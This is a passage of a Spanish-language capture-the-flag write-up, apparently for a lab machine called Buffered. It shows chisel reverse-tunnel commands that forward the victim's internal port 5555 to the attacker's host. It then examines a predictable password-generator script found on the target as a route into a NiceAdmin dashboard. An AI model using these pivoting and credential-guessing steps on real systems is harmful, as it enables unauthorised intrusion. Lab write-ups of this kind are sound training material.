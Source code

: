 Como estamos dentro de la maquina, utilizaremos [`chisel`](https://github.com/jpillora/chisel) para que el puerto 5555 de la máquina sea el 5555 de nuestro host:

```css
# Máquina atacante
./chisel server --reverse -p 2323
# Máquina victima
./chisel client 172.17.0.1:2323 R:5555:127.0.0.1:5555
```

una vez hecho podremos acceder al puerto 5555 de la máquina victima poniendo "127.0.0.1:5555" en el navegador.

### Puerto 5555

Al entrar en la página, podemos ver como hay un "niceadmin":

![NiceAdmin](images/buffered/niceadmin.png)

el problema es que no contamos con credenciales válidas. Luego de revisar un rato, encuentro un script de python en `~/dashboard/.pwgen.py`, el cual si lo revisamos veremos lo siguiente:

```css
import random

def generate_password():
    first_name = input("Enter your first name: ")
    last_name = input("Enter your last name: ")
    password = f"{first_name[0].lower()}.{last_name.lower()}@buffered_"
    number = random.randint(0, 999999)
    formatted_number = f"{number:06d}" # add padding to the left; i.e. 000001
    password += formatted_number
    return password

# Generate the password
generated_password = generate_password()
print("Generated password:", generated_password)
```
